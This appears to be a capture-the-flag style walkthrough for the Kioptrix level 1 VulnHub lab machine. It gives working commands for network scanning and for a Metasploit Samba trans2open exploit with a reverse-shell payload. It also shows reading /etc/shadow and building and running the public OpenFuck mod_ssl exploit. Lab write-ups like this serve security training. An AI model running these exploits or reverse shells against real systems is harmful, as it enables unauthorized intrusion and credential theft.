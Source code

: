 # Kioptrix-level 1\
(Screenshots are going to be seperate)
Hey so I'm going to be be going over the process of pwning kioptrix level 1 vulnhub machine. So I started off by using Arpscan to scan for available devices so:
```arp-scan -l```
Then I was going to identify it using the MAC address, so in my case I was looking on all possible vendors and eliminating what's not useful. So in my case the MAC address was ```1a:c0:1e:91:41:b9``` you can usually also lookup MAC addresses online because first 3 octets identify the vendor so whatever comes from a specific vendor has the sama first 3 octets (OUI or Organizational Unique Identifier) and the last 3 (NIC or Network Interface Controller) are special for each device. So in my case it was unknown for the vendor possibly because it was hosted on a vm. So in the Arp scan along with the MAC address you get an IP address in my case it was ```192.168.1.44```. Then my next step was to scan that IP address using NMAP to see possible open ports and other information so I used ```nmap -T4 -A -p- 192.168.1.44``` or for realistic taste you can try ```nmap -T4 -sS -A -p- 192.168.1.44``` and the latter I added the "-sS" for stealth scan. So in my results I had 6 open tcp ports (22, 80, 111, 139, 443, 32768). So I ran nikto then went to watch the http and https: ```nikto -h http://192.168.1.44``` as I went to the website it was a default apache page so if that was a real pentest that would give us an idea about the hygiene of the client (awful). In most cases that http with poor hygiene is a finding but after I ran dirbuster it turned it that it didn't have anything important. So we also have the smb port open very important we can run metasploit to scan the version so:
```msfconsole```
```use auxiliary/scanner/smb/smb_version```
```options```
```set RHOSTS 192.168.1.44```
```run```
So the results we got that it's running "Unix (Samba 2.2.1a)"
we can google "Unix (Samba 2.2.1a) exploits" or we can try to login with smbclient to the address (but it failed).
So it's possibly vulnerable to "Samba trans2open Overflow (Linux x86)" by rapid 7 (metasploit) so let's see:
```msfconsole```
```use exploit/linux/samba/trans2open```
```option```
```set LHOST```
```set RHOSTS```
```run``` or ```exploit```
Most likely it's not going to work so a soultion that has worked to me was to change the current payload "linux/x86/shell_reverse_tcp" so :
```set payload linux/x86/shell_reverse_tcp```
```run``` or ```exploit```
Then Most likely you will have a shell. From here you can ```cd``` until you get to home then ```cd etc``` then ```cat passwd``` and ```cat shadow```
So that's the metasploit route, now let's try to use a manual exploit. So in the scanning I found "mode SSL" on https (Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b). So I looked on google for compatible exploits and found "OpenLuck" on github by heltonWernik. So follow the direction ->
```git clone https://github.com/heltonWernik/OpenFuck.git```
```apt-get install libssl-dev```
```gcc -o OpenFuck OpenFuck.c -lcrypto```
```./OpenFuck```
Now we are going to start using the exploit
```./OpenFuck 0x6b 192.168.1.44 -c 40```
You should get a shell
then try things like:
```whoami```
```hostname```
So that was it for this machine, I hope y'all learned something or more and hopefully there will be more content.

